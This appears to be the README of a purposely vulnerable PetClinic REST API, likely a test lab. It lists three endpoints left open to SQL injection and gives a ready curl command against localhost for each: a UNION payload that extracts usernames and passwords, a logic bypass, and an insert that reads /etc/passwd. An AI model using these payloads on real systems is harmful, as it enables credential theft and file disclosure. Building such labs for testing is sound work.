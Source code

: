 # Endpoints vulnerable for SQLi

This project has the following endpoints:
```shell
GET: /oops
POST: /owners
GET: /owners
GET: /owners/{ownerId}
PUT: /owners/{ownerId}
DELETE: /owners/{ownerId}
POST: /owners/{ownerId}/pets
GET: /owners/{ownerId}/pets/{petId}
PUT: /owners/{ownerId}/pets/{petId}
POST: /owners/{ownerId}/pets/{petId}/visits
GET: /pettypes
POST: /pettypes
GET: /pettypes/{petTypeId}
PUT: /pettypes/{petTypeId}
DELETE: /pettypes/{petTypeId}
GET: /pets
POST: /pets
GET: /pets/{petId}
PUT: /pets/{petId}
DELETE: /pets/{petId}
GET: /visits
POST: /visits
GET: /visits/{visitId}
PUT: /visits/{visitId}
DELETE: /visits/{visitId}
GET: /specialties
POST: /specialties
GET: /specialties/{specialtyId}
PUT: /specialties/{specialtyId}
DELETE: /specialties/{specialtyId}
GET: /vets
POST: /vets
GET: /vets/{vetId}
PUT: /vets/{vetId}
DELETE: /vets/{vetId}
POST: /users
```

Out of these, some are made vulnerable to SQL injection:
```HTTP
# other table data (UNION), single row
GET: /vets/{vetId}
# subvert logic, single row
GET: /specialties/{specialtyId} 
# (hidden) inserting data, single row
POST: /vets
```

## Endpoints with shallow depth
These vulnerable endpoints don't have deep code execution and all detect
multiple rows as SQLi, so payloads work internally, but don't always
return data in the HTTP response.

### Vulnerability 1: `GET /vets/{vetId}`
This vulnerability allows for UNION attacks, allowing an attacker to retrieve
data from other tables.

payload: `0' UNION SELECT NULL,username,password FROM users--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966' \
  $'http://localhost:9966/petclinic/api/vets/0\'%20UNION%20SELECT%20NULL,username,password%20FROM%20users--'
```

### Vulnerability 2: `GET /specialties/{specialtyId}`
This vulnerability allows for subverting logic, allowing an attacker to retrieve
hidden data. 

payload: `4'--`

```shell
curl -i -s -k -X $'GET' \
  -H $'Host: localhost:9966'
  $'http://localhost:9966/petclinic/api/specialties/4\'--'
```
 
### Vulnerability 3: `POST /vets`
This vulnerability allows for inserting data, allowing an attacker to create
a new user with, e.g., leaked data. 

payload: `hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--`
```json
{
  "firstName": "hack', (SELECT LEFT(pg_read_file('/etc/passwd'), 30)) ) RETURNING id--",
  "lastName": "",
  "specialties": [
    {
      "name": "hacker"
    }
  ]
}
```

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Accept: application/json'-H $'Host: localhost:9966' -H $'Content-Length: 168' \
    --data-binary $'{\x0a  \"firstName\": \"hack\', (SELECT LEFT(pg_read_file(\'/etc/passwd\'), 30)) ) RETURNING id--\",\x0a  \"lastName\": \"\",\x0a  \"specialties\": [\x0a    {\x0a      \"name\": \"hacker\"\x0a    }\x0a  ]\x0a}' \
    $'http://localhost:9966/petclinic/api/vets'
```
